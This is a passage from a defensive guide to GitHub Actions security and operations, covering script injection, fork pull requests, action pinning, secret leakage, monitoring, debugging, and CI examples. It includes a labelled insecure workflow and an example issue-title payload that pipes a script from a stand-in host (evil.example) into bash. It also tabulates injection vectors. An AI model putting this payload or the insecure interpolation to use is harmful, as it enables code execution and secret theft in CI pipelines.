**Attacker-controlled fields include:** `github.event.issue.title`, `.body`, `github.event.pull_request.title`, `.body`, `.head.ref` (branch name), `.head.repo.default_branch`, `github.head_ref`, `github.event.comment.body`, `github.event.head_commit.message`, `.author.email`, `.author.name`, `github.event.commits.*.message`, `github.event.workflow_run.head_branch`, `.head_commit.message`, and any `inputs.*` string from `workflow_dispatch`. Even `github.ref_name` on a branch can contain shell metacharacters.

**⚠️ INTENTIONALLY INSECURE EXAMPLE**

```yaml
# ⚠️ INTENTIONALLY INSECURE EXAMPLE. DO NOT USE.
on:
  issues:
    types: [opened]
jobs:
  greet:
    runs-on: ubuntu-latest
    steps:
      - run: |
          echo "New issue: ${{ github.event.issue.title }}"
```

An issue titled `"; curl https://evil.example/x.sh | bash; echo "` becomes shell code executing in your job. With a privileged token and secrets, the attacker can exfiltrate or push.

### 35.2 Fixes (in order of preference)

**1. Pass untrusted values through an environment variable** (official recommendation): the value is stored as data and never becomes part of the script text.

```yaml
- name: Greet
  env:
    TITLE: ${{ github.event.issue.title }}
  run: |
    echo "New issue: $TITLE"     # note: double-quoted shell variable
```

**2. Use an action** that takes the value as an input (`with:`) and handles it in code.

**3. Validate/allowlist** before use: branch names must match `^[A-Za-z0-9._/-]+$`; digests `^sha256:[0-9a-f]{64}$`; versions `^[0-9]+\.[0-9]+\.[0-9]+$`.

**4. Least privilege**, so that even a successful injection has little to steal (no secrets, `permissions: {}`).

### 35.3 Other injection paths

| Vector | Example | Defense |
|---|---|---|
| Untrusted data written to `$GITHUB_ENV` | Multi-line value injects `LD_PRELOAD=...` or `NODE_OPTIONS=...` | Never write untrusted text to `GITHUB_ENV`; sanitize; use random heredoc delimiters |
| Untrusted data to `$GITHUB_OUTPUT` | Injects extra outputs | Same |
| Artifact from a fork run used by a privileged `workflow_run` | Executes attacker script | Treat as data; validate; never execute |
| `github-script` with interpolated input | `script: console.log("${{ github.event.issue.title }}")` is JavaScript injection | Read from `context.payload` or env, not `${{ }}` inside the script |
| Filename/path injection | `run: rm ${{ github.event.pull_request.head.ref }}` | Quote, use `--`, validate |
| Command construction from inputs | `docker run ${{ inputs.args }}` | Never build commands from free text |

**Safe `github-script`:**

```yaml
- uses: actions/github-script@v9
  env:
    TITLE: ${{ github.event.pull_request.title }}
  with:
    script: |
      const title = process.env.TITLE;
      core.info(`PR title length: ${title.length}`);
```

### 35.4 Detect injection automatically

Enable **CodeQL for GitHub Actions** (it detects script injection and other unsafe patterns), run `actionlint` (syntax and shellcheck of `run:` blocks) and `zizmor` (static analyzer for Actions security issues), and use OpenSSF Scorecard's *Dangerous-Workflow* and *Token-Permissions* checks.

---

## Chapter 36. Fork Security and Untrusted Pull Requests

### 36.1 What a fork PR can access

| Trigger | Workflow file source | `GITHUB_TOKEN` | Repo/org secrets | Runs PR code? |
|---|---|---|---|---|
| `pull_request` (fork) | PR merge commit | **Read-only** | **None** | Yes, isolated |
| `pull_request` (same repo branch) | PR merge commit | As configured | Available | Yes; write-access user |
| `pull_request_target` | **Default branch** | Read/write (as configured) | **Available** | Only if *you* check it out |
| `workflow_run` after a fork's workflow | Default branch | As configured | Available | Only if *you* download and run it |
| `issue_comment` on a fork PR | Default branch | As configured | Available | Only if you fetch/run it |
| Dependabot `pull_request` | PR merge commit | Read-only | None | Yes |

First-time and outside contributors' workflows need **approval** before running (repository/org setting: *Approve runs from forks*). Set it to require approval for all outside collaborators on sensitive repositories.

### 36.2 Safe patterns

1. **Run tests with `pull_request`** and no secrets. This is the default and the goal.
2. **Comment results safely (split privilege):**

```yaml
# workflow 1: pull_request, untrusted, no secrets
name: PR checks
on: pull_request
permissions: { contents: read }
jobs:
  test:
    runs-on: ubuntu-24.04
    steps:
      - uses: actions/checkout@v7
        with: { persist-credentials: false }
      - run: mvn -B -ntp verify | tee build.log
      - run: |
          mkdir -p out
          echo "$PR_NUMBER" > out/pr-number
          tail -n 50 build.log > out/summary.txt
        env:
          PR_NUMBER: ${{ github.event.pull_request.number }}
      - uses: actions/upload-artifact@v7
        with: { name: pr-result, path: out/ }
```

```yaml
# workflow 2: workflow_run, privileged, treats the artifact as DATA
name: PR comment
on:
  workflow_run:
    workflows: ['PR checks']
    types: [completed]
permissions:
  pull-requests: write
  actions: read
jobs:
  comment:
    if: ${{ github.event.workflow_run.event == 'pull_request' }}
    runs-on: ubuntu-24.04
    steps:
      - uses: actions/download-artifact@v8
        with:
          name: pr-result
          run-id: ${{ github.event.workflow_run.id }}
          github-token: ${{ github.token }}
      - name: Post comment (validate, never execute)
        env:
          GH_TOKEN: ${{ github.token }}
          REPO: ${{ github.repository }}
        run: |
          pr=$(tr -cd '0-9' < pr-number)
          [[ -n "$pr" ]] || { echo "bad pr number"; exit 1; }
          body="$(head -c 4000 summary.txt)"
          gh pr comment "$pr" --repo "$REPO" --body "Build summary:
          \`\`\`
          $body
          \`\`\`"
```

The privileged workflow never executes the artifact and validates that the PR number is numeric.

3. **Need secrets for fork PR tests?** Use an **environment with required reviewers** so a maintainer inspects the PR before secrets are released, or run those tests only after merge.
4. **Labeling/triage only:** `pull_request_target` *without any checkout of PR code* and with tight permissions, or use a first-party labeler configured for it.

### 36.3 Fork PR scenario summary

A malicious fork PR under `pull_request` can run code but has no secrets and a read-only token: the worst outcomes are wasted minutes and cache/artifact pollution (mitigated by read-only cache modes and treating artifacts as untrusted). The same PR under a badly written `pull_request_target` is a full compromise. Design so the second case cannot exist.

---

## Chapter 37. Supply Chain Security and Action Pinning

### 37.1 The risk

Every `uses:` is a dependency executed with your job's access. If a compromised action runs in a job that has secrets, it can read them (environment, memory, files) and use the `GITHUB_TOKEN`. Jobs can also affect each other through shared files and the Docker socket on shared runners.

### 37.2 Pinning

| Reference | Mutable? | Attack |
|---|---|---|
| `@main` / branch | Yes | Push malicious commit |
| `@v4` (major tag) | Yes | Move tag |
| `@v4.2.1` (exact tag) | Yes (tags can be deleted/recreated) | Move tag |
| `@<full 40-char SHA>` | **No** (a SHA-1 collision would be needed) | Effectively none for that repo (verify the SHA belongs to the action's repository, not a fork) |

**Official position:** pinning to a full-length commit SHA is currently the only way to use an action as an immutable release. GitHub offers **repository and organization policies requiring SHA pinning**, and **immutable releases** for action authors. If you use tags, only do it for creators you trust, and know that a tag can still be moved.

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
```

**Keeping pins updated without pain:** Dependabot (`package-ecosystem: github-actions`) and Renovate both understand SHA pins with a trailing `# vX.Y.Z` comment and open PRs bumping SHA and comment. Add a **cooldown** so brand-new releases age a few days before adoption (a compromised release is usually detected within hours or days). Review the diff of the action between versions for high-risk actions. Dependabot alerts only cover actions using semantic versions, so SHA-pinned actions need dependency-review and Dependabot PRs for visibility.

**Transitive risk.** An action you pin may itself call `uses: other/action@v1` (a composite action) or download binaries at runtime (as the Trivy incident showed). Pinning your reference does not pin what *it* pulls. Prefer actions that are self-contained, have few dependencies, are maintained by reputable orgs, and consider replacing thin third-party wrappers with a 5-line script using the tool's official installer verified by checksum.

### 37.3 Trust decisions for third-party actions

Ask: Who maintains it (verified creator)? How popular and how maintained? Does it need secrets or write scopes (why)? Does it download code at runtime? Can I replace it with `run:` + a checksummed binary? Fork it into your org (and pin your fork by SHA) for critical ones. Restrict the org policy to an **allowlist** of trusted actions and verified creators.

### 37.4 Runtime hardening

- **Egress control** on runners: a network-egress policy or a runner hardening agent (for example StepSecurity Harden-Runner, a third-party tool) can restrict outbound destinations and alert on unexpected connections. This is how the Trivy exfiltration was detected in at least one public report.
- **Separate jobs by trust**, per Chapter 34.
- **Do not persist credentials** in `.git/config` (`persist-credentials: false`).
- **Ephemeral runners** for anything sensitive.

### 37.5 Provenance, SBOM, signing

- **Provenance** (SLSA): a signed statement of how an artifact was built. `actions/attest-build-provenance` produces it; verify with `gh attestation verify`.
- **SBOM**: an inventory of components. Produce with BuildKit's `sbom: true`, Syft/`anchore/sbom-action`, or attest an SBOM with `actions/attest`. Store it alongside the artifact.
- **Signing**: Cosign keyless signing with the workflow's OIDC identity; verify with an identity policy (issuer `https://token.actions.githubusercontent.com`, subject = your workflow ref).
- **Enforce at the boundary**: an admission controller (Kyverno, Sigstore policy-controller, Ratify) or a deploy-step check that refuses unsigned/unattested images.
- Also see GitHub's Kubernetes admission controller guidance and Enforce artifact attestations docs.

### 37.6 Protecting the workflow files themselves

- **CODEOWNERS** on `.github/workflows/`, `.github/actions/` requiring platform/security review.
- **Branch and tag rulesets** so nobody can push workflow changes or release tags directly.
- **No workflow edits by automation with broad tokens.**
- **Audit log** monitoring for secret and settings changes.
- Enable **CodeQL for Actions** and Scorecard.
- Remember: a user with write access can change a workflow on a branch and run it. Protect secrets with **environments** (reviewers + branch policy) so a rogue branch's workflow cannot obtain production secrets.

### 37.7 What to do if an action you use is compromised (scenario 6 in Chapter 50)

1. Identify runs that used the affected reference in the exposure window (search workflows and logs; dependency graph).
2. **Rotate every secret** those jobs could read; revoke tokens; review cloud audit logs for OIDC role assumptions and unusual API calls.
3. Check what the `GITHUB_TOKEN` could write; audit recent commits, releases, packages.
4. Pin to a known-good SHA and add the policy to require pinning.
5. Rebuild and re-verify artifacts produced in the window; revoke/replace published images if tainted.

---

## Chapter 38. Secret Leakage and Least Privilege

### 38.1 Where secrets leak

| Channel | How | Prevention |
|---|---|---|
| Logs | `echo`, `env`, `set -x`, error messages, verbose tools, unmasked derived values | No printing; `::add-mask::`; review logs of failure paths; avoid `set -x` |
| Artifacts | Uploading `.env`, config files, `.git`, coverage of secrets | Curate `path:`; never upload the workspace root; `include-hidden-files` default off |
| Environment variables | Job/workflow-level `env` exposes to every step and action | Step-level scoping |
| Debug logging | Enabling `ACTIONS_STEP_DEBUG` may print more variable content | Enable temporarily, delete logs after |
| Command-line arguments | Visible to other processes (`ps`) | Pass via env or stdin |
| Docker layers / build args | `ARG` values persist in image history | Use BuildKit secrets (`--mount=type=secret`), never ARG for secrets |
| Caches | Credentials in cached directories (`~/.m2/settings.xml` with tokens) | Do not cache config; write credentials after restore and delete |
| `.git/config` | Persisted checkout token | `persist-credentials: false` |
| Pull request comments/notifications | Bots posting logs | Filter output |
| Third-party actions | Exfiltrate over the network | Pinning, allowlists, egress control, step-level scoping |

**Shell tracing and masking recap:** GitHub masks *exact* secret values only. Base64, split, hashed or partial forms leak. If you derive a token (JWT, base64), call `::add-mask::` on the derived value immediately.

### 38.2 Least privilege, concretely

| Layer | Practice |
|---|---|
| Workflow-level `permissions` | `contents: read` baseline in every workflow |
| Job-level `permissions` | Elevate only where needed |
| Repository default token setting | Read-only |
| Secrets | Environment-scoped; smallest set per job |
| Cloud roles | One role per environment and per purpose (plan vs apply; build vs deploy); narrow IAM |
| Runners | Ephemeral, network-restricted, groups by trust |
| Reviewers | Required for production environment; no self-approval |
| Bots | GitHub App with minimal installation scopes |

**A production permission configuration (calling out each grant):**

```yaml
permissions:
  contents: read                    # workflow baseline

jobs:
  build-image:
    permissions:
      contents: read
      packages: write               # push image to GHCR
      id-token: write               # keyless provenance / OIDC
      attestations: write           # store attestation
  deploy:
    environment: production
    permissions:
      contents: read
      id-token: write               # AWS OIDC only
  notify:
    permissions: {}                 # sends a webhook; needs no GitHub access
```

### 38.3 Security review shortcuts

Ask of every job: *What can this job read? What can it write? Who can trigger it? What untrusted text enters it? What happens if any action in it is malicious?* If a job that runs third-party code has cloud access or `write` scopes, redesign it.

---

# Part 9: Production Operations

## Chapter 39. Observability, Analytics and DORA Metrics

### 39.1 Do not pretend Actions is an observability platform

GitHub gives you run history, logs, per-job timing, a visualization graph, usage/billing views and (for organizations) Actions usage metrics. It does **not** give you long-term trends across repositories, SLOs on pipelines, alerting on deployment health, or application telemetry. Use GitHub for *who ran what, when, and why it failed*; use external systems for *trends, alerts and service health*.

| Question | Watch in GitHub | Watch elsewhere |
|---|---|---|
| Did the workflow pass? Why not? | Run page, logs, annotations, summaries | |
| How long do jobs take? Queue time? | Run/job timing, usage metrics | Long-term dashboards (Grafana) via API/webhooks |
| Is the deployment healthy after release? | Smoke test result | Application metrics/traces (Datadog, Prometheus/Grafana, OpenTelemetry backends), Sentry release tracking |
| How is DORA trending? | Deployment records | DORA dashboards fed from deployments and incidents |
| Runner health (self-hosted) | Runner list/status | Node metrics, ARC metrics (Prometheus) |

### 39.2 Metrics that are meaningful

| Metric | Definition | Why it matters | Caution |
|---|---|---|---|
| **Workflow duration (p50/p90)** | Start to finish | Developer wait time | Track the *critical path*, not the sum of job times |
| **Queue time** | Created to started | Runner capacity problem | Rises with self-hosted undercapacity |
| **Job/step duration** | | Finds bottlenecks | |
| **Failure rate** (per workflow, excluding cancellations) | Failed runs / completed runs | Pipeline health | Separate *infrastructure* failures from *test/code* failures |
| **Flaky-test rate / retry rate** | Runs that pass on re-run / total | Trust in CI | Rising retry rate is an early warning |
| **Cache hit rate** | | Cost and speed | |
| **Deployment frequency** | Successful production deployments per day/week | DORA | Count real production deploys |
| **Lead time for changes** | First commit (or merge) to production | DORA | Choose one definition and keep it |
| **Deployment duration** | Deploy job runtime | Rollout efficiency | |
| **Change failure rate** | Deployments causing incident/rollback / total | DORA | Needs an incident/rollback signal |
| **Time to restore service (MTTR)** | Incident start to recovery | DORA | Comes from incident tooling, not Actions |
| **Rollback frequency** | Rollbacks / deployments | Quality signal | |

**DORA's four keys** are deployment frequency, lead time for changes, change failure rate and time to restore service (recent DORA reports also discuss deployment rework rate). Use them to guide improvement, **not to rank teams or individuals**: gaming is easy and misleading comparisons are worse than none.

### 39.3 How to get the data out

- **REST API / GraphQL:** list workflow runs and jobs (`/repos/{owner}/{repo}/actions/runs`, `/actions/runs/{id}/jobs`), deployments and statuses. A scheduled workflow or external collector exports to your metrics store.
- **`workflow_run` and `workflow_job` webhooks:** push events (with timestamps, conclusions, runner labels) to a collector; the `workflow_job` event lets you compute queue time.
- **Deployments API:** if you create deployment records (an `environment:` job does this), you have deployment frequency and timing.
- **OpenTelemetry:** community actions/collectors turn workflow runs into traces (each job and step a span) exported to Grafana Tempo, Datadog or Honeycomb. Evaluate and pin any such action (it receives run metadata).
- **Datadog CI Visibility, Grafana, Sentry releases:** integrate via their official actions/CLIs at the end of a deploy (`sentry-cli releases new/finalize/deploys`, Datadog deployment events), so production dashboards show *deploy markers*.

Send a **deployment marker** to your APM/monitoring in the deploy job (a single curl to the vendor API with a secret). It makes "did the deploy cause it?" answerable in seconds.

### 39.4 Logs, annotations and summaries

| Feature | Use |
|---|---|
| Step logs | Default output; use `::group::` to fold noisy sections |
| Annotations | `::error file=...,line=...::`, `::warning::`, `::notice::` surface in the PR diff and run summary |
| **Job summary** | Append Markdown to `$GITHUB_STEP_SUMMARY`: test totals, coverage, deployed digest, links; cheap and very readable |
| Debug logging | Set repository secret/variable `ACTIONS_STEP_DEBUG=true` for step debug logs, `ACTIONS_RUNNER_DEBUG=true` for runner diagnostics, or *Re-run with debug logging* in the UI. Remove afterwards; debug logs are verbose and may reveal more |
| Sensitive data | Never log payloads with tokens/PII; review logs after testing failure paths |
| Log retention | Configurable; deleting logs is possible but rotate any exposed secret first |

```yaml
- name: Publish deployment summary
  if: ${{ always() }}
  env:
    DIGEST: ${{ needs.build.outputs.digest }}
    ENVIRONMENT: ${{ inputs.environment }}
  run: |
    {
      echo "### Deployment"
      echo "| Field | Value |"
      echo "|---|---|"
      echo "| Environment | \`$ENVIRONMENT\` |"
      echo "| Digest | \`$DIGEST\` |"
      echo "| Commit | \`${GITHUB_SHA}\` |"
      echo "| Result | ${JOB_STATUS} |"
    } >> "$GITHUB_STEP_SUMMARY"
  # JOB_STATUS could be passed similarly through env
```

(Define `JOB_STATUS: ${{ job.status }}` in that step's `env` as well.)

### 39.5 What to monitor where

- **Inside GitHub:** required-check stability, run failure rates per workflow, queue times, cost by workflow, failed scheduled jobs, self-hosted runner online count.
- **Outside GitHub:** application health, error rates, latency SLOs, rollout state, DORA dashboards, runner host metrics, security alerts.
- **Alerting:** on *default-branch pipeline red*, *production deploy failed*, *rollback*, *scheduled job failed*, *runner fleet below capacity*, not on every PR failure.

---

## Chapter 40. Notifications

### 40.1 Design principles

1. **Notify on state changes and decisions, not on noise.**
2. **Route by audience:** developers see PR checks inline; the team channel gets default-branch failures and production events; on-call gets pages for production failures.
3. **Every message answers:** what, where (environment), which version (short SHA/digest), who triggered, link to the run, what to do.
4. **One message per event**, updated or threaded, instead of many.
5. **Deduplicate** retries.
6. **Never include secrets or attacker-controlled text unescaped.**

| Event | Channel | Severity |
|---|---|---|
| Production deployment started | Deploy channel | Info |
| Production deployment succeeded | Deploy channel | Info |
| Production deployment failed | Deploy channel + on-call | High |
| Rollback triggered | Deploy channel + on-call | High |
| Default branch CI failed | Team channel | Medium |
| Scheduled scan/audit failed | Team channel | Medium |
| Approval waiting > N hours | Approvers | Low |
| Successful PR CI | **Nobody** (avoid) | n/a |

### 40.2 Implementation options

- **Reusable `notify.yml`** called by deployment workflows (explicit, easy to test).
- **`workflow_run` failure notifier** (one central workflow listening to many workflows).
- **Vendor actions** (Slack's official GitHub Action, Microsoft Teams/Discord actions): fine when pinned. A dependency-free alternative is a `curl` to an incoming webhook.

### 40.3 A safe Slack/Discord message via `curl` and `jq`

```yaml
- name: Notify Slack
  if: ${{ always() }}
  env:
    SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
    STATUS: ${{ inputs.status }}          # validated enum from the caller
    ENVIRONMENT: ${{ inputs.environment }}
    VERSION: ${{ inputs.version }}
    RUN_URL: ${{ github.server_url }}/${{ github.repository }}/actions/runs/${{ github.run_id }}
  run: |
    payload=$(jq -n --arg text ":rocket: *${ENVIRONMENT}* deployment *${STATUS}* (\`${VERSION}\`) <${RUN_URL}|view run>" '{text:$text}')
    curl --fail --silent --show-error --max-time 15 --retry 3 \
      -H 'Content-Type: application/json' -d "$payload" "$SLACK_WEBHOOK_URL"
```

`jq --arg` JSON-escapes values, so text cannot break the payload; nothing untrusted is interpolated into the shell script. The webhook URL is a secret scoped to the step. Full examples: Chapter 44, Examples 16 to 18.

**Email:** GitHub sends native notification emails for workflow runs to the people who triggered them (configurable in notification settings, *Actions*), which is often enough for developers. For custom emails use your provider's API.

### 40.4 Avoiding spam

Notify only on `failure()` outside production; use `workflow_run` conditions (`conclusion == 'failure'` and branch `main`); throttle scheduled alerts (one issue per condition, updated, not one per run); use threads; give a *mute-able* channel per severity.

---

## Chapter 41. Debugging GitHub Actions

### 41.1 The universal process

1. **Read the exact error** (expand the failing step; search upward for the first error, not the last).
2. **Classify**: *did not run* (trigger/filter/permission/condition), *failed to start* (YAML/context/runner), *failed to execute* (script/tool), *executed but wrong result* (logic/cache/matrix).
3. **Reproduce smaller**: re-run failed jobs; use `workflow_dispatch` on a branch; run the underlying script locally; test with `act` (a community tool with limitations) only for simple cases.
4. **Add evidence**: debug logging, `toJSON(context)` printouts (safe fields only), `$GITHUB_STEP_SUMMARY`, `set -x` (without secrets).
5. **Change one thing** at a time; confirm.
6. **Fix at the right level**, then add a guard (test, `actionlint`, comment, a required check).

### 41.2 Symptom → causes → steps

| Symptom | Likely causes | What to do |
|---|---|---|
| **Workflow does not trigger** | File not in `.github/workflows` or wrong extension; YAML invalid; `on:` filters (branch/paths/types) excluded it; `workflow_dispatch`/`schedule`/`pull_request_target` need the file on the **default branch**; event created by `GITHUB_TOKEN` (does not trigger runs); `[skip ci]` in commit message; workflow disabled; Actions disabled or restricted by policy; fork PR awaiting approval; schedule in inactive public repo | Actions tab → "workflow file" errors; check filters vs the event; check *Settings → Actions*; look at run list for "approve and run" |
| **YAML syntax error** | Indentation; unquoted `!`/`:`/`{`; wrong key for context (e.g. `secrets` in job `if`) | The UI shows an error banner on the workflow; run `actionlint` |
| **"Unrecognized named-value" / context not available** | Using a context where it is not allowed (`env` in job `if`, `steps` in `runs-on`) | Contexts availability table; use `needs` outputs or job `env` |
| **Permissions failure ("Resource not accessible by integration")** | `GITHUB_TOKEN` lacks the scope; fork PR read-only token; reusable workflow ceiling lower than needed; org default read-only | Add the specific permission at the job; for forks use a split-privilege design |
| **Authentication failure to registry/cloud** | Wrong secret; expired token; registry requires `packages: write`; OIDC misconfig | Test auth step in isolation; see OIDC table (Chapter 25) |
| **Secret is empty** | Secret missing at that scope; fork/Dependabot run; environment secret but job has no `environment:`; typo (names are case-insensitive, but must exist); reusable workflow not given the secret | Check scope; pass explicitly; look for "***" absence (masking only shows if the value is non-empty) |
| **Artifact missing** | Wrong `path`; hidden files excluded; `if-no-files-found` was `warn`; name mismatch on download; different run (download needs `run-id` and token for other runs); uploaded in a failed job without `if: !cancelled()`; retention expired | Print `ls`; check names; use `merge-multiple` deliberately |
| **Cache not restored / not saving** | Key changed each time (hash of a changing file); scope isolation (branch cannot read sibling); read-only cache mode on low-trust triggers; save skipped because exact hit; cache evicted (size or 7 days); path differs | Read the cache step log; print the computed key |
| **Job skipped** | `if` false; `needs` job failed/skipped; matrix empty; path filter; concurrency cancelled it | *View job condition logs* (the "job condition" log in the run UI) |
| **Condition incorrect** | String vs boolean; `'false'` truthy; case-insensitivity surprises; `!` without quoting; missing `failure()`; `github.head_ref` empty outside PRs | `echo` the expression via `env`; use `toJSON` |
| **Matrix failure** | One leg fails and `fail-fast` cancels others; include/exclude logic; output collision between legs; unpinned version differences | `fail-fast: false`; reproduce the exact leg's values |
| **Runner failure** | Hosted: image change, disk/memory exhaustion, tool version drift (`ubuntu-latest` moved); Self-hosted: offline, labels, disk, leftover state | Pin the runner label; check `df -h`, memory; see runner troubleshooting (Chapter 26) |
| **Docker build failure** | Cache mount issues; base image pull rate limits; missing build context files (`.dockerignore`); platform mismatch (arm64 vs amd64); network in build; out of disk | Reproduce with `docker buildx build` locally; `--progress=plain`; check base image digest |
| **Deployment failure** | Wrong kube context/permissions; image pull error (registry auth, digest missing); failing readiness probe; config/secret missing in target; Helm values wrong; migration failed | `kubectl describe pod`, `kubectl logs`, `helm status`; upload diagnostics artifact on failure |
| **OIDC failure** | Missing `id-token: write`; trust policy `sub`/`aud` mismatch; environment vs branch subject; provider missing | Chapter 25.8 |
| **Flaky test** | Time, order, shared state, ports, networking, resource limits, external services | Re-run to confirm flake; check shard/matrix interactions; quarantine; fix |
| **Timeout** | Hung process waiting for input; service never healthy; deadlock; too small `timeout-minutes`; slow runner | Add step-level timeouts; print progress; health-check with bounded retries |
| **Concurrency cancellation** | Same group used by multiple workflows; `cancel-in-progress` on the wrong event; newer run replaced pending one | Look at "Canceling since a higher priority waiting request..." message; inspect group expression |
| **"Workflow was canceled" at 6h** | No timeout; hung step | Set timeouts |
| **Too many reruns** | 50-rerun cap per run | Start a new run instead |

### 41.3 Tools of the trade

- **Enable debug logging** (`ACTIONS_STEP_DEBUG`, or re-run with debug logging).
- **`actionlint`** in CI and locally; **`zizmor`** for security lint.
- **`gh` CLI:** `gh run list`, `gh run view --log-failed`, `gh run rerun --failed`, `gh workflow run deploy.yml -f environment=staging`, `gh run watch`.
- **SSH into a runner for debugging** (community actions such as tmate): **do not use on workflows with secrets**, and pin carefully; prefer reproducing locally.
- **Scratch workflows** on a branch with `workflow_dispatch` (remember dispatch needs the file on the default branch for the *UI button*, but you can target a branch ref via `gh workflow run --ref` once the workflow exists on the default branch).

### 41.4 Debugging a deployment when CI is green

Scenario 10 in Chapter 50 walks through it: compare artifacts (same digest?), configuration (env vars, vars, secrets, Helm values), permissions (the deploy identity differs from CI), network (private endpoints), runtime environment (Kubernetes secrets, IAM roles for the pod), migrations ordering, and readiness checks. CI proves the code; deployment proves the *environment*.

---

## Chapter 42. Performance and Cost Optimization

### 42.1 Find the bottleneck first

Open a run; view the **visualization graph** and **job/step timings**. Identify the **critical path** (longest chain of dependent jobs). Only optimize steps on it. Measure queue time separately: waiting for a runner is not your code being slow.

### 42.2 Techniques

| Technique | Effect | Trade-off |
|---|---|---|
| Parallel jobs / reordered `needs` | Shorter critical path | More concurrent runner minutes |
| Dependency caching (`setup-*` `cache`) | Saves download time | Cache restore time; scope/security |
| Docker layer caching (`type=gha` or registry) | 15 minutes → 2 minutes typical for image builds | Cache size/eviction; correctness discipline |
| Ordering Dockerfile layers (dependencies before source) | Big cache hit gains | None |
| Avoid unnecessary checkout / shallow clone (`fetch-depth: 1` default) | Faster start | Some tools need history (`fetch-depth: 0`) |
| `paths` filters / change detection | Skip irrelevant work | Required-check pitfalls (gate job) |
| Cancel superseded runs | Less waste | Not for deploys |
| Reusable workflows | Consistent, fewer copies | Central complexity |
| Matrix trimming | Fewer legs | Less coverage; keep only versions you support |
| Test splitting | Wall time down | Setup overhead ×N; balance shards by timing |
| Smaller artifacts, lower `retention-days`, `compression-level` | Less storage/time | |
| `ubuntu-slim` or small runners for light jobs (notifications, gates) | Cheaper | |
| Larger runners for heavy builds | Faster | Higher per-minute cost; may be cheaper overall |
| Skip redundant workflows (do not run the same test on `push` and `pull_request` for the same commit) | Cost | Ensure coverage on main via merge queue or push |

### 42.3 Cost model

GitHub-hosted runners are billed per minute on private repositories (free for standard runners on public repos; each plan includes free minutes; different OS multipliers; larger runners have higher rates). Storage for artifacts and caches is limited by plan (cache 10 GB per repository by default). Self-hosted runners shift cost to your infrastructure and engineering time.

**Cost drivers:** long-running jobs; matrix explosion (N×M legs); unnecessary triggers (every push to every branch); redundant duplicate workflows; macOS/Windows minutes; retries; large caches thrashing; hung jobs (no timeout).

**Trade-offs (speed, reliability, security, cost).**

| Choice | Faster | More reliable | More secure | Cheaper |
|---|---|---|---|---|
| Larger runners | ✓ | ✓ (less contention) | | ✗ per minute |
| Aggressive caching | ✓ | ✗ (staleness) | ✗ (poisoning risk) | ✓ |
| Self-hosted | maybe | ✗ (you operate) | ✗ unless ephemeral | ✓ at scale |
| More parallel jobs | ✓ | | | ✗ |
| Full matrix on every PR | ✗ | ✓ | | ✗ |
| Minimal matrix on PR, full nightly | ✓ | ✓ | | ✓ |

**Recommendation:** fast, small PR pipeline; broader matrix and deep scans on a schedule and on main.

### 42.4 Determinism versus speed

Do not trade correctness for speed: pinned toolchains, lockfiles and hermetic tests make pipelines both fast (cacheable) and trustworthy.

---

## Chapter 43. Branch Protection, Merge Queues and Branching Strategies

### 43.1 Rulesets and required checks

**Repository rulesets** (or classic branch protection) enforce: pull requests required, N approvals, review from CODEOWNERS, dismiss stale approvals, **required status checks**, linear history, blocking force pushes and deletion, signed commits, **merge queue**, and restricting who can create tags. Configure them on `main` and release branches, and on `v*` tags.

**Making required checks stable**

- Require a **single gate job** (Chapter 27.2) named plainly (`CI gate`).
- Do not put **workflow-level `paths` filters** on workflows that supply required checks; skipped workflows leave checks Pending and block merges. Use in-workflow change detection.
- Job names are the check names; keep them stable, and avoid matrix values in the required one.
- Keep *one* workflow responsible for a check name; two workflows emitting the same name cause confusion.
- Require checks to come from the expected app/source to prevent spoofing by other integrations.
- A skipped job (`if:` false) reports success for checks; be careful it does not hide a gap.

### 43.2 Merge queues

A **merge queue** tests each PR against the latest main *plus queued PRs ahead of it* and merges only if that combined result passes, preventing "green PR, red main" caused by simultaneous merges (Scenario 3). Your CI workflow must trigger on `merge_group` (types `checks_requested`):

```yaml
on:
  pull_request:
  merge_group:
```

Keep merge-queue CI fast, since every queued PR waits on it; run the *required-check subset* there.

### 43.3 CODEOWNERS

```text
# .github/CODEOWNERS
/.github/workflows/   @ORG/platform-security
/.github/actions/     @ORG/platform-security
/terraform/           @ORG/platform-infra
/src/main/resources/db/migration/  @ORG/dba-reviewers
```

Require code owner review in the ruleset so pipeline, infrastructure and migration changes get expert eyes.

### 43.4 Branching strategies and CI/CD

| Strategy | Trigger design | Trade-offs |
|---|---|---|
| **GitHub Flow** (short-lived branches, PR to main, deploy from main) | CI on PR; deploy on push to `main` | Simple; fits continuous delivery; needs strong tests and feature flags for unfinished work |
| **Trunk-based development** | Very short branches or direct trunk; heavy use of merge queue and feature flags; deploy from trunk | Fastest flow; demands discipline, flags, fast CI |
| **Feature branches** (longer-lived) | CI on push/PR of each branch | Integration pain; larger merges; environments per branch tempting but costly |
| **Release branches** (`release/1.x`) | CI on `release/**` and PRs into them; deploy/patch from release branches | Supports multiple supported versions and hotfixes; more merging, cherry-picks |
| **Git tags** (`v1.4.2`) | Release/production workflows trigger on tag push; tag rulesets protect | Clear version identity; ensure tags come only from vetted commits |

No strategy is universally best. Choose by release cadence, number of supported versions, and team size. Regardless: environments' branch/tag policies must match the strategy (for example production deploys only from `main` or `v*` tags), and workflows must not deploy from arbitrary branches.

---

# Part 10: Production Workflow Examples

**How to read these.** Examples use Java 21, Maven and Spring Boot, plus AWS (ECR, EKS via OIDC) or GHCR. Every third-party action is pinned to a full commit SHA with the version in a comment (SHAs resolved on 20 September 2026; verify before adopting). Each example is followed by *what it does*, *why it is structured this way*, *security notes* and *alternatives*. Assumptions: a Spring Boot service `orders-service` with Actuator, a `Dockerfile`, a Helm chart in `helm/orders-service`, and Flyway migrations.

## Chapter 44. The Examples

### Example 1: Backend CI

`.github/workflows/backend-ci.yml`

```yaml
name: Backend CI

on:
  push:
    branches: [main]
  pull_request:

permissions:
  contents: read

concurrency:
  group: backend-ci-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}

jobs:
  test:
    runs-on: ubuntu-24.04
    timeout-minutes: 25
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with:
          persist-credentials: false

      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with:
          distribution: temurin
          java-version: '21'
          cache: maven

      - name: Format check
        run: mvn -B -ntp spotless:check

      - name: Compile, test, coverage
        run: mvn -B -ntp verify

      - name: Coverage summary and floor
        if: ${{ !cancelled() }}
        run: |
          set -euo pipefail
